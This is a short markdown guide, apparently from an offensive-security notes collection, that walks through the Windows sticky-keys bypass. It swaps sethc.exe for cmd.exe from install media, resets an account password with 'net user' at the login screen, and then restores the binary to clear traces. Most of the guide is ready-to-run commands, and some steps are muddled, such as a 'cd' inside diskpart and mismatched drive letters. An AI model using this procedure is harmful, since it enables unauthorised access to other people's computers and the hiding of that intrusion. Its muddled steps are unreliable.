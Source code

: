 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - password-cracking
  - living-off-the-land
  - windows
---
```

# Living off the Land

Press SHIFT + F10 to open a command prompt.

TODO: include screenshots

Enumerate the partitions.

```
X:\Sources> diskpart.exe

DISKPART> list volume
```

Select the main partition. You'll easily notice it has at least gigabytes of size.

```
DISKPART> cd d:

DISKPART> exit
```

backup the binary

```
X:\Sources> d:

D:\> copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc.bak

D:\> copy /y C:\Windows\System32\cmd.exe C:\windows\System32\sethc.exe
```

Reboot then press **SHIFT** key 5 times. Then reset the password.

```
C:\> net user

C:\> net user <current_account> <new_password>
```

Revert the binaries to clear traces ahead of time.

```
C:\> copy /y C:\Windows\System32\sethc.bak C:\Windows\System32\sethc.exe

C:\> del /f C:\Windows\System32\sethc.bak
```